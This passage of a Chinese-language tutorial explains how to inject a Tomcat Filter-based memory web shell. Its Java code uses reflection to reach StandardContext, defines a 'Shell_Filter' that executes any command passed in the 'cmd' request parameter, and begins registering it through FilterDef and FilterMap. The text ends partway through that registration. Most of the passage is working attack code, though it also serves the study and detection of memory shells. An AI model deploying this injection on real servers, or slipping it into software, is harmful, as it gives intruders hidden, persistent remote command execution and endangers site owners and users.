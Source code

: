 
1. 获取`StandardContext`对象
2. 创建恶意`Filter`
3. 使用`FilterDef`对`Filter`进行封装，并添加必要的属性
4. 创建`filterMap`类，并将路径和`Filtername`绑定，然后将其添加到`filterMaps`中
5. 使用`ApplicationFilterConfig`封装`filterDef`，然后将其添加到`filterConfigs`中
#### 4.2.3.1、获取StandardContext对象
`StandardContext`对象主要用来管理`Web`应用的一些全局资源，如`Session`、`Cookie`、`Servlet`等。因此我们有很多方法来获取`StandardContext`对象。
`Tomcat`在启动时会为每个`Context`都创建个`ServletContext`对象，来表示一个`Context`，从而可以将`ServletContext`转化为`StandardContext`。
```java
//获取ApplicationContextFacade类
ServletContext servletContext = request.getSession().getServletContext();
 
//反射获取ApplicationContextFacade类属性context为ApplicationContext类
Field appContextField = servletContext.getClass().getDeclaredField("context");
appContextField.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
 
//反射获取ApplicationContext类属性context为StandardContext类
Field standardContextField = applicationContext.getClass().getDeclaredField("context");
standardContextField.setAccessible(true);
StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
```
#### 4.2.3.2、创建恶意`Filter`
```java
public class Shell_Filter implements Filter {
    
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd=request.getParameter("cmd");
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }catch (NullPointerException n){
            n.printStackTrace();
        }
    }
}
```
#### 4.2.3.3、使用`FilterDef`封装
```java
//filter名称
String name = "CommonFilter";
// 创建了一个新的 FilterDef 对象，用于定义过滤器的配置信息，包括过滤器的名称、类和实例等。
FilterDef filterDef = new FilterDef();
// 使用 setFilter() 方法设置过滤器的实例，参数 filter 应该是一个过滤器的实例。
filterDef.setFilter(filter);
// 使用 setFilterName() 方法设置过滤器的名称，参数 name 是之前定义的过滤器名称。
filterDef.setFilterName(name);
// 使用 setFilterClass() 方法设置过滤器的类名，这里通过 filter.getClass().getName() 获取过滤器实例的类名，通常是过滤器类的全限定名。
filterDef.setFilterClass(filter.getClass().getName());
// 最后，通过 addFilterDef() 方法将这个过滤器定义对象添加到指定的 StandardContext 对象中。这个方法用于在容器中注册一个过滤器定义，以便后续可以在部署描述符中配置过滤器映射。
standardContext.addFilterDef(filterDef);
```
#### 4.2.3.4、创建`FilterMap`
`filterMap`用于`filter`和路径的绑定
```java
// 创建了一个新的 FilterMap 对象，用于表示过滤器的映射信息。
// FilterMap 是用来配置过滤器与 URL 匹配模式、调度器类型等信息的类。
FilterMap filterMap = new FilterMap();
```